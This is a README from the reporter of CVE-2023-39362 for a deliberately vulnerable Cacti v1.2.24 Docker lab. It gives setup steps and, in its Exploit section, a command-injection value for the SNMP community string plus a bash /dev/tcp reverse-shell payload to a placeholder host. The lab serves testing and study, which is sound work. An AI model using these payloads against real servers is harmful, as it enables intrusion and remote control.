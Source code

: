 # Cacti v1.2.24 authenticated command injection (CVE-2023-39362) vulnerable application

This is a vulnerable application to test the exploit for the **Cacti** vulnerability (**CVE-2023-39362**).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application. The only purpose of this application is to be a test scenario for the CVE-2023-39362 exploit and it should not be used maliciously. If your server is compromised via an installation of this application it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2023-39362
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39362](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39362)
* **Description**: TBD

## Usage

Here the steps to **setup** the environment:
1. Launch `docker compose up -d` to start composition.
2. You can finalize the steps by browsing to [http://127.0.0.1/cacti](http://127.0.0.1/cacti) to start the Cacti initialization wizard. If you get an error referring to the database, just wait a little bit and refresh the page.
3. Default credentials are `admin`/`admin`.
4. Press "*Next*" to all the buttons during the wizard, choosing options accordingly. All the defaults should be fine and all the mandatory prerequisites should be satisfied.
5. After the installation, login as the `admin`.
6. Go to "*Console*" > "*Configuration*" > "*User*".
7. Click on the `guest` user.
8. "*Enable*" it, set a password, disable the "*Must Change Password at Next Login*" if you want.
9. Click on the "*Save*" button.
10. Go to the "*Permissions*" section.
11. Under "*General Administration*", enable "*Console Access*" and "*Sites/Devices/Data*".
12. Click on the "*Save*" button.
13. Logout and re-login as `guest` to try the exploit.

The container will be called `vuln-cacti`.

The hostname for a test SNMP device is `monitored_snmp_device`.

To **teardown** the environment use `docker compose down` command.

The official installation guide of Cacti can be found [here](https://docs.cacti.net/README.md#cacti-installation).

## Root cause

A detailed root cause of the vulnerability is available in the [original security advisory](https://github.com/Cacti/cacti/security/advisories/GHSA-g6ff-58cj-x3cp) or in [my blog post](https://m3ssap0.github.io/articles/cacti_authenticated_command_injection_snmp.html).

## Exploit

(This is *only one possible* exploit)

1. Go to "*Console*" > "*Create*" > "*New Device*".
2. Create a Device that supports SNMP version 1 or 2.
3. Ensure that the Device has Graphs with one or more templates of:
    * "*Net-SNMP - Combined SCSI Disk Bytes*"
    * "*Net-SNMP - Combined SCSI Disk I/O*"
    * (Creating the Device from the template "*Net-SNMP Device*" will satisfy the Graphs prerequisite)
4. In the "*SNMP Options*", for the "*SNMP Community String*" field, use a value like this: `public\' ; touch /tmp/m3ssap0 ; \'`.
5. Click the "*Create*" button.
6. Check under `/tmp` the presence of the created file.

To obtain a reverse shell, a payload like the following can be used.
```
public\' ; bash -c "exec bash -i &>/dev/tcp/<host>/<port> <&1" ; \'
```

## Authors

* **Antonio Francesco Sardella** - *vulnerability reporter* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the Unlicense - see the **LICENSE** file for details.
